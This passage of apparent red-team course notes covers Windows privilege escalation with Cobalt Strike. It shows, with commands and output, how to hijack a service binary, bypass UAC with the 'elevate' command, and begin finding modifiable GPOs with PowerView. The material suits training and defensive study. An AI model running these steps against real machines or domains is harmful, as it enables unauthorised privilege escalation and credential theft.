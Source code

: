 This seems like an ambiguous error, but it means the file is already in use.  This makes sense, since the service is running.

``` cmd
C:\>net helpmsg 32
The process cannot access the file because it is being used by another process.
```

```
beacon> run sc stop VulnService3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 290kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start VulnService3
beacon> connect localhost 4444
```


## UAC Bypasses

---

User Account Control (UAC) is a technology that exists in Windows which forces applications to prompt for consent when requesting an administrative access token.
A UAC "bypass" is a technique that allows a medium integrity process to elevate itself or spawn a new process in high integrity, without prompting the user for consent.  Being in high integrity is important for attackers because it's required for various post-exploitation actions such as dumping credentials.

Beacon has a few built-in UAC bypasses and a few more which are provided via the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit) (this has already been pre-loaded into Cobalt Strike for your convenience).  These are exposed via the `elevate` command.

[[Cobalt Strike#UAC Bypass via [Elevate Kit](https //github.com/cobalt-strike/ElevateKit)]]

```
beacon> elevate uac-schtasks tcp-local
[*] Tasked Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444) in a high integrity context
[+] established link to child beacon: 10.10.123.102
```


## Modifying Existing GPOs

---

Modifying an existing GPO that is already applied to one or more OUs is the most straightforward scenario.  To search for these, we need to enumerate all GPOs in the domain with `Get-DomainGPO` and check the ACL of each one with `Get-DomainObjectAcl`.  We want to filter any for which a principal has modify privileges such as CreateChild, WriteProperty or GenericWrite, and also want to filter out the legitimate principals including SYSTEM, Domain Admins and Enterprise Admins.
